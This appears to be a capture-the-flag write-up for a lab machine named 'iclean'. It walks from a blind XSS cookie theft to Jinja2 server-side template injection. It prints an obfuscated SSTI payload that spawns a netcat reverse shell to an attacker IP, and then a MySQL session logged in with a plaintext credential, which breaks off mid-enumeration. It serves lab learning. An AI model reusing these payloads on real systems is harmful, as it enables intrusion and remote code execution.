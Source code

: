 
when you test this api, you see this type is Blind XSS vuln and get cookies from this.
![image.png](https://i.postimg.cc/7LW689dj/image.png)

You have cookies insert into the cookie browser and refresh, redirect /dashboard. In this you can see genQR and test it. In `qr_link`, the targer server get this test and pass in the invoke bill. This can be used template, test SSTI -> yahh.

![image.png](https://i.postimg.cc/GhCpCHg3/image.png)
![image.png](https://i.postimg.cc/VLgzP4b4/image.png)
![image.png](https://i.postimg.cc/0yNPkmYv/image.png)
![image.png](https://i.postimg.cc/sg0yvXmh/image.png)

**SSTI: python jinja2**
![image.png](https://i.postimg.cc/9fR2ThgN/image.png)

**check subclass**:
\{\{(dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))()\{\{(dict.mro()[-1]|attr("\x5f\x5fsubclasses\x5f\x5f"))()}}
![image.png](https://i.postimg.cc/4y5RZNnn/image.png)
`subclass [365] -> Popen`
![image.png](https://i.postimg.cc/4y5RZNnn/image.png)
**payload**: \{\{""["\\x5f\\x5fclass\\x5f\\x5f"]["\\x5f\\x5fmro\\x5f\\x5f"][1] [["\\x5f\\x5fsubclasses\\x5f\\x5f"]]()[[365]](''rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.10.14.18+7777+>/tmp/f',shell=True,stdout=-1).communicate()[0].strip()}} 
![image.png](https://i.postimg.cc/sxnHwBvP/image.png)
![image.png](https://i.postimg.cc/L4vWHWNq/image.png)
```shell
Mysql because I see code have 'pymysql….'
--------------------------------------------------------------------------------

www-data@iclean:/opt/app$ mysql --user=iclean --password=pxCsmnGLckUb 
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 854
Server version: 8.0.36-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases
    -> ;
+--------------------+
| Database           |
+--------------------+
| capiclean          |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use capiclean
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

```